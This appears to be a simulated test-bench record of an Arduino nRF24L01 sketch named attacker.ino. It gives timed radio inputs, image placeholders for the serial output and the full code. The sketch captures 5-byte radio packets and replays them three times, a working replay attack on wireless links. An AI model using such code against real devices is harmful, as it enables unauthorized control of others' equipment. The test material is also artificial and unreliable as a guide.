
Simulated run of this sketch. Board: Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). No radio packets arrive unless stated.

Above: at 1.2 s.
1.3 s: the transmitter starts sending incoming.0 = 0
At 2.4 s:

3.2 s: the transmitter starts sending incoming.1 = 64
At 4.0 s:

4.7 s: the transmitter starts sending incoming.0 = 64
At 4.91 s:

6.7 s: the transmitter starts sending incoming.2 = 64
At 6.91 s:

8.2 s: the transmitter starts sending incoming.1 = 0
11.2 s: the transmitter starts sending incoming.3 = 64
At 12.2 s:


Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 3.2 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.7 s, the serial monitor: prints a new line at once (image 3)
- after the input at 6.7 s, the serial monitor: prints a new line at once (image 4)
- after the input at 11.2 s, the serial monitor: prints a new line at once (image 5)

The sketch:

attacker.ino
```cpp
#include <SPI.h>
#include <nRF24L01.h>
#include <RF24.h>

typedef unsigned char byte;

RF24 radio(7, 8); // CE, CSN
const byte addresses[][6] = {"00001", "00002"};

int Delay = 40; //Milliseconds

void setup() {

        Serial.begin(9600);

        radio.begin();
        radio.openReadingPipe(1, addresses[1]); // 00002
        radio.setPALevel(RF24_PA_MIN);

}

void loop() {

    radio.openReadingPipe(1, addresses[1]); // 00002
        radio.setPALevel(RF24_PA_MIN);
        delay(Delay);
        radio.startListening();

    byte incoming[5];

    if (radio.available()) {
        radio.read(&incoming, sizeof(incoming));
        for (int i=0; i < 5; i++){Serial.print(incoming[i]); Serial.print(",");}Serial.println("");
        if (incoming[0] != 0 & incoming[1] != 0){
            delay(Delay);
            radio.stopListening();
            radio.closeReadingPipe(1);
            radio.openWritingPipe(addresses[1]);
            delay(200); // Wait 200 milliseconds and replay
            for (int i = 0; i < 3; i++){ // Replay the payload 3 times
                Serial.println("Replaying");
                radio.write(&incoming, sizeof(incoming));
            }
        }
    }
}
```
